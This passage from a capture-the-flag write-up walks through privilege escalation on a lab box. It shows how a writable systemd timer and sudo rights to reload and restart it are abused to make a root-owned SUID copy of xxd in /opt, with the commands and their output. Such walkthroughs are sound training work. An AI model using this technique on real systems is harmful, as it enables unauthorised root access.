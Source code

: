 
We see that Comte can reload the system daemon, start, restart, and enable the exploit service's timer as root. We have also located the exploit.service and the exploit.timer files. Let's enumerate this files.
```bash
comte@cheesectf:~$ cat /etc/systemd/system/exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"

comte@cheesectf:~$ cat /etc/systemd/system/exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target

comte@cheesectf:~$ ls -l /etc/systemd/system/exploit.timer
-rwxrwxrwx 1 root root 87 Mar 29 16:25 /etc/systemd/system/exploit.timer
```
We can see that the exploit service copies xxd binary to the /opt directory and sets the SUID bit on it and that we have the privilege to write in the exploit.timer file. Since we can reload the system daemon and restart this service, we can force the execution of this service but before doing that we need to add a value to **OnBootSec=** otherwise, we will have an error. The OnBootSec= directive in a service configuration specifies a delay before the service is executed after the system boots or after it is restarted. So, yes, if you set OnBootSec=5s, the service will start 5 seconds after the system boots or after the service is restarted. 
```bash

comte@cheesectf:~$ nano /etc/systemd/system/exploit.timer
comte@cheesectf:~$ cat /etc/systemd/system/exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=5

[Install]
WantedBy=timers.target
```

Since we have modified the service's file we need to reload the daemon and restart the service for it to create the xxd binary in the /opt directory with the SUID bit set. After restarting the service we need to wait 5 seconds for the execution to take action.
```bash
comte@cheesectf:~$ sudo /bin/systemctl daemon-reload
comte@cheesectf:~$ sudo /bin/systemctl restart exploit.timer
comte@cheesectf:~$ ls -la /opt
total 28
drwxr-xr-x  2 root root  4096 Sep 25 13:26 .
drwxr-xr-x 19 root root  4096 Sep 27  2023 ..
-rwsr-sr-x  1 root root 18712 Sep 25 13:26 xxd
```
